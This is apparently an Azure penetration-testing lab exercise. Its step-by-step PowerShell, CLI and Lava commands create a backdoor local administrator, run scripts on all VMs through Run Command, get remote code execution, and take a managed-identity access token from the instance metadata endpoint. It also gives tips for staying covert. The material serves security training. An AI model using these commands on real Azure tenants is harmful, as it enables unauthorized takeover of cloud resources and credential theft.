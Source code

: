 

## Task 1 – Exploiting the password reset feature to create a local administrative user
In this exercise, we will exploit the password reset feature for Azure VMs to create a local administrative user that can be used to connect to the VM, where we will hunt for credentials on it. 

1. In a PowerShell console on your pentest VM, use the following commands to authenticate to Entra ID (Azure AD) and Azure as the **`Ava`**. Replace the **`USERNAME`** and **`PASSWORD`** placeholders with the real values of Ava's credentials from the **`LABXX-Info`** exercise file.

```
$username = "USERNAME"
$password = "PASSWORD" | ConvertTo-SecureString -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential($username, $password)

Connect-AzAccount -Credential $cred
Connect-AzureAD -Credential $cred
```

2. Obtain a list of VMs in the subscription using the following command:
```
Get-AzVM
```

3. Create a new local user on the winvm01 VM using the following command:
```
Set-AzVMAccessExtension -ResourceGroupName "PENTEST-RG" -VMName "winvm01" -Credential (get-credential) -typeHandlerVersion "2.0" -Name VMAccessAgent
```

4. When prompted, enter **`pentestuser`** as the username and **`AzPentestCourse2023!`** as the password, then click **`OK`**.
* This creates a new user account that does not exist on the VM. It only requires the **`runCommand`** permission.

5. Obtain the public IP of **`winvm01`** with the following command:
* Remember that if a VM does not have a public IP or the RDP port is not open, you can always use the Contributor role permissions to expose the service on a public IP. This is a major state change in most environments and increases risk, so it is not recommended for most environments.
```
Get-AzPublicIpAddress -Name winvm01* | Select IpAddress
```

6. Connect to the public IP over RDP and authenticate using the username **`pentestuser`** and the password **`AzPentestCourse2023!`**. Congratulations! You have successfully created a local administrator user on the VM.

**NOTE**: This is a very handy feature, but it's not always the most appropriate tool to use during an assessment. Let's say that we want to be a little more covert in our actions during a test. Creating a new local administrator user on a system might trigger some alarms. As an alternative, we can use native Azure functionality to run commands directly on VMs, without the need for an additional account.

### Task 2 - Exploiting the Run Command feature

1. Get all running Windows VMs in the sunscription into a variable using the following command:
```
$VMs = Get-AzVM -Status | where {($_.PowerState -EQ "VM running") -and ($_.StorageProfile.OSDisk.OSType -eq "Windows")}

$VMs | select ResourceGroupName,Name
```

2. Enter the **`whoami`** command into a PowerShell (ps1) file first:
```
echo "whoami" > whoami.ps1
```

3. To execute commands, we will need to pass in the resource group and the name of the VM that we are running the commands on. Thanks to the magic of the PowerShell pipeline, we can pass the VMs variable to the Invoke-AzRunCommand function, along with the local script. NOTE that this could take a long time to complete and have been known to hang at times. We recommend opening a new PowerShell window and proceeding to the next task.
```
$VMs | Invoke-AzVMRunCommand -CommandId 'RunPowerShellScript' -ScriptPath .\whoami.ps1
```

4. While this approach is fine for our sample environment, this will attempt to run your PowerShell script on all VMs in the subscription. You may want to focus on individual VMs for command execution during a normal Azure penetration test. This can be done by specifying individual VMs and resource groups, or by using the indices of the VMs variable that we created earlier. 


### Task 3 - Leveraging Lava for remote code execution
* Lava is a Python-based Microsoft Azure exploitation framework. It has multiple built-in modules that can be used to exploit various misconfigurations in Azure. 

1. Open a PowerShell console on your pentest VM. SSH into the Linux VM specified in your **`LABXX-Info`** exercise file. Enter the password when prompted.
```
ssh linuxadmin@linuxvm-xxxxxxxxxxxxxxxxxxxxxx
```

2. Authenticate to Azure CLI using the following command. Replace the **`AVA_USERNAME`** and **`AVA_PASSWORD`** placeholders with the real values of Ava's credentials from the **`LABXX-Info`** exercise file:
```
az login --username "AVA_USERNAME" --password "AVA_PASSWORD"
```

3. Download Lava using the following command:
```
git clone https://github.com/mattrotlevi/lava.git
```

4. Switch to the Lava directory and run it using the following commands:
```
cd lava/
python3 lava.py
```

5. In the Lava console, confirm the authenticated user using the **`whoami`** command:
```
whoami
```
6. List all the modules in Lava using the following command:
```
ls
```

7. Lava has a lot of modules that can be used to exploit resources in different scenarios but in this task, we will be using two main modules: **`vm_list_privileged`** and **`vm_rce`**. Use the **`vm_list_privileged`** module to check whether any VM in the subscription is associated with a privileged managed identity. To execute a module in Lava, the command needs to be preceded by the exec keyword:
```
exec vm_list_privileged
```

8. You can see from the output that the module found some VMs with privileged access. Use the **`vm_rce`** module to exploit the Run Command functionality for code execution. You will need to specify the VM name and resource group as shown here:

```
exec vm_rce -rgrp PENTEST-RG -vm_name LinuxVM
```

9. In the shell, run the following command to obtain an access token for the resource manager. This will obtain an access token that can be used to make API calls with the  privileges of the resource:
```
curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com' -H Metadata:true
```

10. Highlight and copy only the value of the access token. Make sure you do not copy the trailing comma. Paste it in a notepad document. Type **`exit`** and press **`Enter`** to return to the Lava console. Type **`exit`** again and press **`Enter`** to return to the Bash shell in Linux. 

Congratulations! You have successfully exploited the Run Command functionality to execute code on an Azure resource and obtain an access token that can be used to make API calls with the privileges of the resource. This is a very powerful attack vector that can be used to escalate privileges in Azure.